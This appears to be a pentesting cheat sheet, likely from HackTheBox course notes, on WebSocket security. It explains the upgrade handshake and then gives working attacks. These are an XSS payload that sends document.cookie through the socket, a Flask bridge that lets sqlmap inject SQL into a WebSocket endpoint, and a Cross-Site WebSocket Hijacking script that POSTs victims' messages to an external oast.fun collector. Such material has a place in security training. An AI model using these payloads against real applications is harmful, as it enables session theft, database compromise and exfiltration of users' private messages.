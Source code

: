# Content
- [Sockets](#sockets)
- [Attacks](#attacks)
    - [XSS](#xss)
    - [SQLi](#sqli)
    - [Cross-Site WebSocket Hijacking](#cross-site-websocket-hijacking)

# Sockets
#### The WebSocket handshake is initiated with an HTTP request similar to this:
```http
GET /echo HTTP/1.1
Host: websockets.htb
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: 7QpTshdCiQfiv3tH7myJ1g==
Origin: http://websockets.htb
```
- The Connection header with the value Upgrade and the Upgrade header with the value websocket indicate the client's intent to establish a WebSocket connection
- The Sec-WebSocket-Version header contains the WebSocket protocol version chosen by the client, with the latest version being 13
- The Sec-WebSocket-Key header contains a unique value confirming that the client wants to establish a WebSocket connection; this header does not provide any security protections
- The Origin header contains the origin just like in regular HTTP requests and is used for security purposes.

#### The server responds with a response similar to the following:
```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: QU/gD/2y41z9ygrOaGWgaC+Pm2M=
```
- The HTTP status code of 101 indicates that the WebSocket connection establishment has been completed
- The Connection and Upgrade headers contain the same values as in the client's request, which is Upgrade and websocket, respectively
- The Sec-WebSocket-Accept header contains a value derived from the value sent by the client in the Sec-WebSocket-Key header and confirms that the server is willing to establish a WebSocket connection

# Attacks
## XSS
for example send admin's cookies through socket chat
```html
<img src=x onerror="socket.send(document.cookie);"> 
```

## SQLi
- we need to create a flask middleware to use sqlmap
```bash
pip3 install Flask ,  websocket-client , json
```
- for example if we have a websocket that accept `username` paramter we can create this flask app to convert the get paramter from sqlmap to websocket scheme
```python3
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

WS_URL = 'ws://target.com/dbconnector'

@app.route('/')
def index():
    req = {}
    req['username'] = request.args.get('username', '')

    ws = create_connection(WS_URL)
    ws.send(json.dumps(req))
    r = json.loads(ws.recv())
    ws.close()

    if r.get('error'):
        return r['error']

    return r['messages']

app.run(host='127.0.0.1', port=8000)

```
- then use sqlmap against it 
```shell
sqlmap -u "http://127.0.0.1:8000/?username=htb-stdnt" --level 5 --risk 2        
```


## Cross-Site WebSocket Hijacking
csrf for websocket
```html
<script>
  function send_message(event){
    socket.send('!get_messages');
  };

  const socket = new WebSocket('ws://VulnHost:80/messages');
  socket.onopen = send_message;
  socket.addEventListener('message', ev => {
    fetch('http://ch23a202vtc0000138p0getbibyyyyyyb.oast.fun/', {method: 'POST', mode: 'no-cors', body: ev.data});
  });
</script>

```
> **Note:**  For this exploit to work, the SameSite cookie flag must be set to `None`. Since most browsers apply a default value of Lax if the SameSite cookie attribute is not set, the attack's success would require a deliberately insecure configuration by the web application administrator.
